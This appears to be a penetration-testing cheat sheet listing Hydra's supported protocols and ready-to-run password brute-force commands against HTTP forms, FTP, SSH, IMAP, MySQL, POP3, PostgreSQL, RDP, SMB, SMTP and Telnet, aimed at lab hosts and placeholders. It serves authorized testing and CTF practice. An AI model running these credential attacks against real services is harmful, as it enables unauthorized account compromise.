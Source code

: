 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

hydra

Available Hydra Protocols

~~~
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP
~~~

Hydra Examples
 
HTTP-POST-FORM

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
~~~

HTTPS-POST-FORM

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb  https-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
~~~

HTTP-GET

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/
~~~

HTTPS-GET

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local https-get /certsrv/
~~~

FTP

~~~bash
hydra -l user -P passlist.txt ftp://10.10.134.169
~~~

SSH

~~~bash
hydra -l <username> -P <full path to pass> 10.10.134.169 -t 4 ssh
~~~

IMAP

~~~bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V

hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V
~~~

MYSQL

~~~bash
hydra -L usernames.txt -P pass.txt <IP> mysql
~~~

POP

~~~bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V

hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
~~~

POSTGRESQL

~~~bash
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres
~~~

RDP

~~~bash
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
~~~

SMB

~~~bash
hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
~~~

SMTP

~~~bash
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V

hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
~~~

Telnet

~~~bash
hydra -l root -P passwords.txt [-t 32] <IP> telnet
~~~

